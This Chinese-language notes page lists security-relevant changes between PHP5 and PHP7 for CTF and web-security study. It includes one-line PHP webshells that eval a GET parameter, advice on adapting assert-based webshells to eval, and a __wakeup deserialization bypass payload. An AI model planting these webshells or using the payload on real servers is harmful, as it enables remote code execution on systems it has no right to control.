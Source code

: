 # PHP7 和 PHP5 在安全上的区别

## 收藏

 https://xz.aliyun.com/t/6131 

## 函数修改

### preg_replace()不再支持/e修饰符


  ```php
<?php
preg_replace("/.*/e",$_GET["h"],"."); 
?>
  ```

### 新的函数preg_replace_callback

```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
//http://192.168.99.100:32775/test.php?h=phpinfo();
```

### create_function()被废弃

### mysql_*系列全员移除

### unserialize()增加一个可选白名单参数

```PHP
$data = unserialize($serializedObj1 , ["allowed_classes" => true]);
$data2 = unserialize($serializedObj2 , ["allowed_classes" => ["MyClass1", "MyClass2"]]);
```

其实就是一个白名单，如果反序列数据里面的类名不在这个白名单内，就会报错。

### **assert()**默认不在可以执行代码

这就是众多马不能用的罪魁祸首了，太多的马用assert()来执行代码了，这个更新基本就团灭，一般情况下修改成eval即可正常运行了~

提一下，菜刀在实现文件管理器的时候用的恰好也是assert函数，这导致菜刀没办法在PHP7上正常运行。

### dl()函数在PHP-FPM in PHP 7.0.0.中被移除



### `__wakeup` 的修复

PHP 有个 [Bug](https://bugs.php.net/bug.php?id=72663)，触发该漏洞的PHP版本为PHP5小于5.6.25或PHP7小于7.0.10，该漏洞可以简要的概括为：当序列化字符串中表示对象个数的值`大于`真实的属性个数时会跳过 `__wakeup` 函数的执行。

``` 
<?php
class xctf
{    
	public $flag = "111";
    public function __wakeup()    
    {       
    	exit('bad requests');    
    }
} //echo serialize(new xctf());
echo unserialize($_GET['code']);echo "flag{****}";?>
```

使用这个 payload 绕过 `__wakeup` 函数

```
# O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

## 语法修改

### foreach不再改变

php7之前

### ![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lyd4jvyj30ap07rglv.jpg)

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lwktshnj30ka02074b.jpg)

php7

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lzusjr2j30kw020mx7.jpg)

因为数组最后一个元素的 $value 引用在 foreach 循环之后仍会保留，在第二个循环的时候实际上是对之前的指针不断的赋值。php7中通过值遍历时，操作的值为数组的副本，不在对后续操作进行影响

### 8进制字符容错率降低

在php5版本，如果一个八进制字符如果含有无效数字，该无效数字将被静默删节。

```php
<?php
echo octdec( '012999999999999' ) .'\n';
echo octdec( '012' ) . '\n';
if (octdec( '012999999999999' )==octdec( '012' )){
        echo "octdec(octdec( '012999999999999' ))==octdec('012')";
}
?>
```

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58m6yec3gj30fe00yglm.jpg)

但是在php7里面会触发一个解析错误。

这个问题同样在PHP7.0.0以后的版本又被改回去了，只影响这一个版本。

### 十六进制字符串不再被认为是数字

### 移除了 ASP 和 script PHP 标签

![](http://ww1.sinaimg.cn/large/006pWR9aly1g58m9xr2ldj30j604q0so.jpg)

只能使用`<?php ?>`、`<?= ?>`。
此外`<? ?>`需要看是否开启短标签。



### 超大浮点数类型转换截断

将浮点数转换为整数的时候，如果浮点数值太大，导致无法以整数表达的情况下， 在PHP5的版本中，转换会直接将整数截断，并不会引发错误。 在PHP7中，会报错。

### 杂项

`exec(), system() passthru()`函数对 NULL 增加了保护.

`list()`不再能解开字符串`string`变量

`$HTTP_RAW_POST_DATA` 被移除

`__autoload()` 方法被废弃

`parse_str()` 不加第二个参数会直接把字符串导入当前的符号表，如果加了就会转换称一个数组。现在是第二个参数是强行选项了。

统一不同平台下的整型长度

`session_start()` 可以加入一个数组覆盖php.ini的配置